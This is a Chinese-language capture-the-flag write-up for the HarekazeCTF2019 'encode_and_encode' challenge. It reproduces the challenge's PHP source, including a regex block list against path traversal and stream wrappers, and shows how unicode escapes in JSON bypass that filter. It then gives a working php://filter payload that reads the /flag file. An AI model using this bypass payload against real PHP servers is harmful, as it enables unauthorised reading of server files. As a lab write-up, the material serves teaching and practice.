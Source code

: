 # [HarekazeCTF2019]encode_and_encode

## 知识点

`json unicode解析绕过`

`php伪协议`

## 解题

在`query.php`中找到源码

```php
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

需要利用的就是`$content = file_get_contents($page);`

`$body = file_get_contents('php://input');`的意思是从`POST`传值，主要是要绕过

```php
function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}
```

根据`json`的特性，

> json解析时的关键字过滤可以采用unicode编码，json是支持用unicode编码直接表示对应字符的，如下两个写法是等价的。

```json
{"poc":"php"}
{"poc":"\u0070\u0068\u0070"}
```

[参考文章](https://www.cnblogs.com/Article-kelp/p/16096344.html)

那么我们直接使用伪协议读取即可

```json
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006C\u0061\u0067"}
```

![](./img/[HarekazeCTF2019]encode_and_encode-1.png)

![](./img/[HarekazeCTF2019]encode_and_encode-2.png)